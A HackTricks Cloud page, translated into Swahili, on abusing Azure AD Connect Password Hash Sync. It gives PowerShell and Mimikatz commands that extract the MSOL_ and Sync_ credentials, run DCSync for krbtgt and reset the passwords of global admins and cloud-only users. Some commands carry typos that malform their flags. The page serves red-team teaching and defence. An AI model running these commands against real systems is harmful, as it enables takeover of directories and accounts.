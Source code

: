# Az - PHS - Password Hash Sync

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa za Msingi

[Kutoka kwenye nyaraka:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** ni moja ya mbinu za kuingia zinazotumika kufanikisha utambulisho wa mseto. **Azure AD Connect** inasawazisha hash, ya hash, ya nenosiri la mtumiaji kutoka kwenye Active Directory ya ndani hadi kwenye Azure AD ya wingu.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Ni **mbinu ya kawaida zaidi** inayotumiwa na kampuni kusawazisha AD ya ndani na Azure AD.

Watumiaji wote na **hash ya nenosiri** zinasawazishwa kutoka kwenye AD ya ndani hadi Azure AD. Hata hivyo, **nenosiri wazi** au **hash asili** hazitumwi kwenye Azure AD.\
Zaidi ya hayo, **vikundi vya usalama vilivyojengwa ndani** (kama wasimamizi wa domain...) **havisawazishwi** kwenye Azure AD.

**Hashes synchronization** hufanyika kila **dakika 2**. Hata hivyo, kwa chaguo-msingi, **kuisha kwa nenosiri** na **akaunti** **havisawazishwi** kwenye Azure AD. Kwa hivyo, mtumiaji ambaye **nenosiri lake la ndani limeisha muda wake** (halijabadilishwa) anaweza kuendelea **kupata rasilimali za Azure** kwa kutumia nenosiri la zamani.

Wakati mtumiaji wa ndani anataka kupata rasilimali ya Azure, **uthibitishaji hufanyika kwenye Azure AD**.

**PHS** inahitajika kwa vipengele kama **Identity Protection** na AAD Domain Services.

## Pivoting

Wakati PHS imewekwa, baadhi ya **akaunti zenye haki maalum** zinaundwa kiotomatiki:

* Akaunti **`MSOL_<installationID>`** inaundwa kiotomatiki kwenye AD ya ndani. Akaunti hii inapewa jukumu la **Directory Synchronization Accounts** (angalia [nyaraka](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ambayo inamaanisha kuwa ina **haki za urudufu (DCSync) kwenye AD ya ndani**.
* Akaunti **`Sync_<name of on-prem ADConnect Server>_installationID`** inaundwa kwenye Azure AD. Akaunti hii inaweza **kuweka upya nenosiri la mtumiaji YEYOTE** (aliyesawazishwa au wa wingu pekee) kwenye Azure AD.

Nenosiri za akaunti mbili za awali zenye haki maalum **zinahifadhiwa kwenye seva ya SQL** kwenye seva ambapo **Azure AD Connect imewekwa.** Wasimamizi wanaweza kutoa nenosiri za watumiaji hao zenye haki maalum kwa maandishi wazi.\
Hifadhidata iko kwenye `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Inawezekana kutoa usanidi kutoka kwenye moja ya meza, moja ikiwa imefichwa:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Usanidi uliofichwa** umefichwa na **DPAPI** na ina **nenosiri za mtumiaji wa `MSOL_*`** kwenye AD ya ndani na nenosiri la **Sync\_\*** kwenye AzureAD. Kwa hivyo, kwa kuathiri hizi inawezekana kupandisha haki kwenye AD na AzureAD.

Unaweza kupata [muhtasari kamili wa jinsi hati hizi zinavyohifadhiwa na kufichuliwa katika mazungumzo haya](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Kupata **seva ya Azure AD connect**

Ikiwa **seva ambapo Azure AD connect imewekwa** imeunganishwa na domain (inapendekezwa kwenye nyaraka), inawezekana kuipata na:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Kunyanyasa MSOL\_\*

Azure AD Connect inasaidia hali tatu za uthibitishaji:

- Password Hash Sync (PHS)
- Pass-through Authentication (PTA)
- Federation

Katika hali ya PHS, nywila za watumiaji wa on-premises zinapakuliwa na kuunganishwa na Azure AD. Hii inamaanisha kuwa nywila za watumiaji zinapatikana katika mazingira ya wingu, na zinaweza kutumiwa kwa mashambulizi ya baadaye.

#### Hatua za Kunyanyasa

1. **Kupata MSOL\_ account**: Akaunti ya MSOL\_ inatumiwa na Azure AD Connect kwa shughuli za usawazishaji. Akaunti hii mara nyingi ina ruhusa za juu katika mazingira ya on-premises na wingu.
2. **Kuvuja nywila**: Ikiwa mshambulizi anaweza kupata nywila ya akaunti ya MSOL\_, anaweza kutumia akaunti hiyo kwa mashambulizi ya baadaye.
3. **Kutumia nywila**: Kwa kutumia nywila iliyovuja, mshambulizi anaweza kupata ufikiaji wa rasilimali mbalimbali katika mazingira ya on-premises na wingu.

#### Ulinzi

- **Kusimamia nywila**: Hakikisha nywila za akaunti za MSOL\_ zinasimamiwa vizuri na kubadilishwa mara kwa mara.
- **Kufuatilia shughuli**: Fuatilia shughuli za akaunti za MSOL\_ kwa dalili za matumizi mabaya.
- **Kuweka mipaka ya ruhusa**: Punguza ruhusa za akaunti za MSOL\_ ili kupunguza athari za uvunjaji wa usalama.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Unaweza pia kutumia [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) kupata hizi nywila.
{% endhint %}

### Kunyanyasa Sync\_\*

Kuhujumu akaunti ya **`Sync_*`** inawezekana **kuweka upya nywila** ya mtumiaji yeyote (ikiwa ni pamoja na Wasimamizi Wakuu)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Pia inawezekana **kubadilisha nywila za watumiaji wa wingu pekee** (hata kama hilo halitarajiwi)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Inawezekana pia kutoa nenosiri la mtumiaji huyu.

{% hint style="danger" %}
Chaguo jingine litakuwa **kupeana ruhusa za upendeleo kwa service principal**, ambayo mtumiaji wa **Sync** ana **ruhusa** ya kufanya, na kisha **kupata service principal hiyo** kama njia ya privesc.
{% endhint %}

### Seamless SSO

Inawezekana kutumia Seamless SSO na PHS, ambayo ni hatarishi kwa matumizi mengine mabaya. Angalia hapa:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Marejeleo

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
